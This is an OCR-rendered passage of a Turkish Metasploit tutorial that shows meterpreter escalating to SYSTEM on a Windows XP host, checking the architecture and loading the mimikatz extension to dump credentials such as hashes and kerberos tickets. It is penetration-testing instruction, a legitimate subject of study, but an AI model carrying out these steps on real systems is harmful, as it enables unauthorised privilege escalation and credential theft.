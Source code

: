 
```bash
meterpreter > getsystem
...got system **(**via technique 1**)**.

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```



Başarılı olduysanız yukarıdaki gibi SYSTEM seviyesine geçtiğinize dair çıktı alırsınız.



Mimikatz, 32-bit ve 64-bit mimarilerde çalışmak üzere tasarlanmıştır. SYSTEM seviyesine geçtikten sonra hedef sistemin mimarisinin ne olduğuna `sysinfo` komutuyla bakmalıyız. Bazen, Meterpreter oturum 64-bit mimaride çalışan bir 32-bit mimari prosesinde oturum açmış olabilir. Bu durumda mimikatz’ın bazı özellikleri çalışmayacaktır. Meterpreter oturumu 32-bit bir proseste çalışıyorsa (Mimari aslında 64-bit olmasına rağmen), mimikatz, 32-bit için yazılımları kullanmaya çalışacaktır. Bunun önüne geçmenin yolu `ps` komutuyla çalışan proseslere bakmak ve `migrate` komutuyla başka bir prosese geçmektir.


```bash
meterpreter > sysinfo
Computer        : WINXP-E95CE571A1
OS              : Windows XP **(**Build 2600, Service Pack 3**)**.
Architecture    : x86
System Language : en_US
Meterpreter     : x86/win32
```



Burada görülen çıktıda, hedef makinenin zaten 32-bit mimaride olduğunu görüyoruz. O zaman, 32-bit, 64-bit çakışması bulunmamaktadır. Artık `mimikatz` modülünü yükleyebiliriz.


```bash
meterpreter > load mimikatz
Loading extension mimikatz...success.
```



Yükleme başarıyla tamamlandıktan sonra öncelikle yardım bilgisini görüntüleyelim.


```bash
meterpreter > help mimikatz

Mimikatz Commands
**=================**

    Command           Description
    -------           -----------
    kerberos          Attempt to retrieve kerberos creds
    livessp           Attempt to retrieve livessp creds
    mimikatz_command  Run a custom commannd
    msv               Attempt to retrieve msv creds **(**hashes**)**
    ssp               Attempt to retrieve ssp creds
    tspkg             Attempt to retrieve tspkg creds
    wdigest           Attempt to retrieve wdigest creds
```
